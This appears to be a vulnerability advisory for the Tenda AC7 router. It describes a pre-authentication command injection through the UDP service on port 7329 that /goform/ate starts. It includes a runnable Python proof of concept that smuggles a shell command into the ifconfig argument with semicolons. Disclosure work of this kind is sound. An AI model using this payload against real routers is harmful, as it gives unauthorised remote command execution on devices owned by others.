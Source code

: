 # Description

Tenda AC7 ate_ifconfig_set has pre-authentication command injection

[firmware download](https://www.tenda.com.cn/download/detail-2776.html)

# Affected version

V15.03.06.44 and earlier 

# details

When accessing `url:/goform/ate`, `TendaAte` will be called

![2024-10-04_173619](2024-10-04_173619.png)

The `TendaAte` function creates a thread and calls `ate_main_handle`

![2024-10-04_173913](2024-10-04_173913.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

When `command` is `ifconfig`, the `ate_ifconfig_set` function is entered, in which the `arg` passed in by the user is not checked, and a command injection exists

![2024-10-04_173320](2024-10-04_173320.png)

# POC

```py
import socket
import time
import os

os.system('curl http://192.168.0.10/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('192.168.0.10', 7329)
command = b'ls'
message = b'ifconfig ;' + command + b';'

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```
